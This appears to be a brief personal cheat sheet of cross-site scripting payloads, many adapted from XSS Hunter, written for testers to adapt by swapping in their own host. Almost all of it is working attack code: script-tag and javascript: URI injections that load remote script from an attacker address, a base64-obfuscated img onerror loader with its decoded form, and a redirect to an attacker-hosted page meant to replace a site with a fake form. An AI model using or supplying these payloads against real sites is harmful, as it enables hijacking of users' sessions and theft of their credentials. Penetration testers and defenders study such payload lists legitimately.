 # A Few of My Favorite XSS Payloads: 

Most of these are from or variations of [XSS Hunter]{https://xsshunter.com/app} payloads. 
You can simply modify the host in the payload and run your own web server to both host secondary payloads and check for blind XSS.

## Basic Tag XSS payload -
```
"><script src=http://192.168.1.1></script>
```
## URI XSS payload - 
```
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://192.168.1.1\';document.body.appendChild(a)')
```
## IMG Tag Base64 encoded payload - 

Final payload - (don't use this directly, follow the directions below. This is just an example)
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly8xOTIuMTY4LjEuMSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
```

Inner payload - modify your IP address then base64 encode this.
```
var a=document.createElement("script");a.src="http://192.168.1.1";document.body.appendChild(a);
```

## IMG Tag + iframe to replace page with your own HTML form - 
```
<img src=x onerror="Javascript:window.location.replace('http://192.168.1.1/payload.html')">
```




